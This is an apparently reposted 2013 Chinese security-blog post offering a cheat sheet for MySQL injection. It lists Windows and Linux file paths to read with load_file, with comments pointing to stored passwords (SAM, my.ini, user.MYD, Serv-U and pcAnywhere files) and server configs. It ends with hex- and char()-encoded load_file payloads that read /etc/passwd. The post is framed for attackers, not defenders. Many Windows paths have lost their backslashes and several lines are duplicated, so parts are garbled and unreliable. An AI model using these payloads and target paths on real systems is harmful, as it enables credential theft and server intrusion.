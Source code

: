 ```yaml
---
date: 2013-12-23 05:42:08+00:00
title: MySQL注入load_file常用路径
categories:
- web安全
---
```


网上收集了一些关于mysql注入中常见的load_file路径，共享给兄弟们。





### WINDOWS下:




c:/boot.ini //查看系统版本




c:/windows/php.ini //php配置信息




c:/windows/my.ini //MYSQL配置文件，记录管理员登陆过的MYSQL用户名和密码




c:/winnt/php.ini




c:/winnt/my.ini




c:mysqldatamysqluser.MYD //存储了mysql.user表中的数据库连接密码




c:Program FilesRhinoSoft.comServ-UServUDaemon.ini //存储了虚拟主机网站路径和密码




c:Program FilesServ-UServUDaemon.ini




c:windowssystem32inetsrvMetaBase.xml 查看IIS的虚拟主机配置




c:windowsrepairsam //存储了WINDOWS系统初次安装的密码




c:Program Files Serv-UServUAdmin.exe //6.0版本以前的serv-u管理员密码存储于此




c:Program FilesRhinoSoft.comServUDaemon.exe




C:Documents and SettingsAll UsersApplication DataSymantecpcAnywhere*.cif文件




//存储了pcAnywhere的登陆密码




c:Program FilesApache GroupApacheconfhttpd.conf 或C:apacheconfhttpd.conf //查看WINDOWS系统apache文件




c:/Resin-3.0.14/conf/resin.conf //查看jsp开发的网站 resin文件配置信息.




c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机




d:APACHEApache2confhttpd.conf




C:Program Filesmysqlmy.ini




C:mysqldatamysqluser.MYD 存在MYSQL系统中的用户密码





### LUNIX/UNIX 下:




/usr/local/app/apache2/conf/httpd.conf //apache2缺省配置文件




/usr/local/apache2/conf/httpd.conf




/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置




/usr/local/app/php5/lib/php.ini //PHP相关设置




/etc/sysconfig/iptables //从中得到防火墙规则策略




/etc/httpd/conf/httpd.conf // apache配置文件




/etc/rsyncd.conf //同步程序配置文件




/etc/my.cnf //mysql的配置文件




/etc/redhat-release //系统版本




/etc/issue




/etc/issue.net




/usr/local/app/php5/lib/php.ini //PHP相关设置




/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置




/etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf 查看linux APACHE虚拟主机配置文件




/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看




/usr/local/resin-pro-3.0.22/conf/resin.conf 同上




/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看




/etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件




/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看




/usr/local/resin-pro-3.0.22/conf/resin.conf 同上




/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看




/etc/sysconfig/iptables 查看防火墙策略




load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录




replace(load_file(0×2F6574632F706173737764),0×3c,0×20)




replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))




原文地址：http://hi.baidu.com/sethc5/item/ec2891959d94a6a9cc80e561?qq-pf-to=pcqq.group




[http://www.waitalone.cn/mysql-injection-load_file-common-path.html](http://www.waitalone.cn/mysql-injection-load_file-common-path.html)
